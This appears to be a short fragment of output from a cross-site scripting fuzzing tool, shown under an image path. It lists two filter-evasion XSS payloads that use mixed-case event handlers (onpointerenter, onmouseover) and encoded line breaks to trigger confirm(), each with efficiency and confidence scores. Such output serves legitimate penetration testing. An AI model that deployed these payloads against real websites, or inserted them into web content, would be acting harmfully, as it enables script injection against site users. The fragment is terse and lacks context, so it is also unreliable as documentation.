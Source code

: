 ------------------------------------------------------------
 Payload: <HTML%0doNpoiNteREnter%0a=%0a(confirm)()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 540/1536
 
------------------------------------------------------------
 Payload: <a%0doNMoUsEOvER%0d=%0d[8].find(confirm)//v3dm0s 
 Efficiency: 92 
 Confidence: 10 

